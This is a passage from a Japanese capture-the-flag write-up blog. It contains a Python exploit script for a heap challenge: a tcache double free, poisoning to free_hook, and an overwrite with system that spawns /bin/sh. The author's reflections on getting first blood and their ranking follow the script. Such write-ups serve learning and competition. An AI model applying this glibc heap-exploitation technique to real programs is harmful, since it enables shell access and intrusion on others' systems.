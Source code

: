 ```python
# 5. forge pointer to same addr in list[1]
alloc(4, 2, struct.unpack('d', p64(heap+0x260))[0])

# 6. delete heap+0x260 twice
delete(1)
delete(4)

# 7. set next tcache to free_hook-8
alloc(5, 1, p64(fh-8))

# 8. fill tcache once
alloc(6, 1, 'hoge')

# 9. overwrite free_hook-8 -> "/bin/sh\x00", free_hook -> system to trigger free -> system("/bin/sh")
r.sendlineafter('> ', '/bin/sh\x00' + p64(system))

r.interactive()
r.close()
```

たまたまタイミングよく問題が投下された瞬間に画面を見られたので、FSOP問に続けて２つFirst Bloodを取れました。嬉しい。Discordではメダルがもらえて謎にはしゃいでいましたが、順位はどんどん落ちて行きました。webとcryptoができないやつは単体火力になれないということ。きれいなwriteupがたくさん公開されているので、ちゃんと復習しようと思います。

ちなみに最初に上げた作問者の記事によると、babysortは"winなし"かつ"main一度呼び"でも解けるなどと書かれており、私気になります。（セキュアなのでゎ？）